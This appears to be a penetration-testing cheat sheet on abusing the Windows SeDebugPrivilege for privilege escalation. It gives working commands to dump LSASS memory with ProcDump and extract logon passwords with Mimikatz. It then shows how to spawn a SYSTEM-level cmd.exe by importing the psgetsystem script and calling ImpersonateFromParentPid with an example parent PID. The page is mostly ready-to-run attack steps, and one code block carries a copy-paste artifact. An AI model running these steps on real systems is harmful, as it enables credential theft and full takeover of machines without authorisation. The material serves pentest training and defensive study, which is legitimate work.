 # SeDebugPrivilege

#### **What is SeDebugPrivilege?**

* **SeDebugPrivilege** is a powerful Windows privilege that allows a user to debug and interact with any process running on the system, even those running as **SYSTEM**. This privilege is primarily intended for developers and administrators to debug applications but can be exploited to escalate privileges.
* **Key Command:**
  * `whoami /priv` → Check if the current user has **SeDebugPrivilege**. If listed, this privilege can be abused to access sensitive system processes like `LSASS` or escalate privileges by injecting malicious code into these processes.

#### **Exploiting SeDebugPrivilege**

If a user has **SeDebugPrivilege**, they can exploit it to interact with high-privileged processes, especially those running as SYSTEM. By accessing these processes, an attacker can extract sensitive information, such as credentials or passwords, or gain full control over the system.

Here are the main methods for exploiting **SeDebugPrivilege**:

## **1. Dumping LSASS to Extract Credentials**

The **Local Security Authority Subsystem Service (LSASS)** is responsible for enforcing the security policy on the system, handling password changes, and validating users for login. **LSASS** holds credentials in memory, and if **SeDebugPrivilege** is enabled, it can be dumped to extract these credentials.

**Steps to Exploit LSASS Dumping:**

1.  **Use ProcDump**:

    ```perl
    procdump.exe -accepteula -ma lsass.exe lsass.dmp
    ```

    **Explanation:**

    * `-ma` → Captures a full memory dump of the `lsass.exe` process.
    * `lsass.dmp` → The output dump file that can later be analyzed to extract credentials.
2.  **Analyze the dump with Mimikatz**:

    ```arduino
    arduinoCopy codemimikatz.exe
    mimikatz # sekurlsa::minidump lsass.dmp
    mimikatz # sekurlsa::logonpasswords
    ```

    **Explanation:**

    * `sekurlsa::minidump` → Loads the dumped file.
    * `sekurlsa::logonpasswords` → Extracts credentials from the dump.

## 2. Exploiting SeDebugPrivilege for RCE as SYSTEM

#### **Overview**

The **SeDebugPrivilege** can be used to gain **Remote Code Execution (RCE)** as **SYSTEM** by manipulating processes and inheriting elevated tokens from a SYSTEM-level process. The basic idea is to launch a child process that inherits the token of the parent process, which is running with **SYSTEM** privileges. By leveraging **SeDebugPrivilege**, we can alter the system's normal behavior and execute commands with SYSTEM rights.

#### **Steps to Achieve RCE as SYSTEM Using SeDebugPrivilege**

1.  **Identify a SYSTEM-level process:**

    First, we need to identify a process that is running with **SYSTEM** privileges. We can do this using the `tasklist` command in an elevated PowerShell session.

    **Command:**

    ```mathematica
    PS C:\> tasklist
    ```

    This will give you a list of running processes along with their **PID** (Process IDs). Locate the **PID** of a process running as **SYSTEM**.

***

2.  **Using psgetsystem Tool:**

    We will now use the **psgetsystem** tool, which can be found [here](https://github.com/decoder-it/psgetsystem), to impersonate the **SYSTEM** privileges of the identified parent process and launch a command as SYSTEM.

    **Steps to Use psgetsystem:**

    1.  **Download and Import the Script**:

        After downloading the `psgetsys.ps1` script from the repository, import it into your PowerShell session:

        **Command:**

        ```shell
        PS> . .\psgetsys.ps1
        ```
    2.  **Impersonate SYSTEM Using Parent Process ID (PPID):**

        Now, use the **ImpersonateFromParentPid** function to impersonate SYSTEM by specifying the **Parent Process ID** (`ppid`) of the SYSTEM-level process you found earlier. You can then execute any command as SYSTEM.

        **Command:**

        ```shell
        PS> ImpersonateFromParentPid -ppid <parentpid> -command <command to execute> -cmdargs <command arguments>
        ```

        For example, to launch **cmd.exe** as SYSTEM, you would run the following:

        **Example Command:**

        ```bash
        ImpersonateFromParentPid -ppid 612 -command "C:\Windows\System32\cmd.exe" -cmdargs ""
        ```

        * **-ppid** → Specifies the Parent Process ID (the SYSTEM process ID obtained earlier).
        * **-command** → The command to be executed (in this case, `cmd.exe`).
        * **-cmdargs** → Any additional command arguments (optional).

